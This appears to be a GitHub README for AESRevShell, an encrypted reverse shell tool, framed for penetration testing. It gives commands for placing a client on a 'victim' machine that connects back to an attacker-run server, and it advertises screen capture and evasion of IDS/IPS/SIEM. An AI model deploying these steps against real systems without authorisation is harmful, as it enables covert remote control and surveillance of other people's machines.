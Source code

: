# AESRevShell

## 🔐 Overview
AESRevShell is a **secure reverse shell tool** that utilizes:
- **AES-GCM** for authenticated encryption
- **ECDH** (Elliptic Curve Diffie-Hellman) for secure key exchange
- **HKDF** for key derivation

Ideal for **pentesting** and **security research** in monitored environments.

## ✨ Key Features
| Feature | Description |
|---------|-------------|
| **MITM Protection** | ECDH prevents interception |
| **Forward Secrecy** | Ephemeral session keys |
| **Command Execution** | Remote command execution with encrypted responses |
| **Encrypted Screenshots** | Captures and encrypts target screen |
| **Traffic Obfuscation** | Bypasses IDS/IPS/SIEM |
| **Cross-Platform** | Works on Linux/Windows/macOS |
| **No Key Sharing** | Automatic secure exchange |

```mermaid
sequenceDiagram
   participant Server
   participant Client
   Server->>Client: Public Key (ECDH)
   Client->>Server: Public Key (ECDH)
   Note right of Server: Derives shared secret
   Note left of Client: Derives shared secret
   Server->>Client: Encrypted (AES-GCM) Command
   Client->>Server: Encrypted Response
```

## **Demos**
![image](https://github.com/user-attachments/assets/6abbe459-e4bb-44e6-b773-d7a5b02266b0)
![image](https://github.com/user-attachments/assets/45f14aaf-d9d1-486f-b364-540a69095bbb)

## **Installation**
1. Install dependencies:
   ```bash
   sudo apt update && sudo apt install -y python3-pip
   python3 -m pip install --upgrade cryptography
   ```

2. Clone the repository:
   ```bash
   git clone https://github.com/OusCyb3rH4ck/AESRevShell
   cd AESRevShell
   ```

3. Make the scripts executable:
   ```bash
   chmod +x client.py server.py
   ```

## 🖥️ **Usage**

- Upload the '**client.py**' into victim's machine

#### **Server (attacker):**
Start the server (attacker) with the desired IP and port:
```bash
./server.py -i 0.0.0.0 -p 443
```

#### **Client (victim):**
Connect the client (victim) to the server:
```bash
./client.py -s SERVER_IP -p SERVER_PORT
```

### Special commands

- `screenshot` - Captures target screen
- `exit` - Terminates session
- `CTRL + L` - Clears console

## ⚠️ **Disclaimer**
This tool is intended for **educational purposes** and **authorized penetration testing** only. Do not use it for malicious purposes. The authors are not responsible for any misuse of this tool.

## 🤝 **Contributing**
Contributions are welcome! If you have any suggestions, improvements, or bug fixes, feel free to open an issue or submit a pull request.

## **Author**
- [OusH4x](https://github.com/OusH4x)
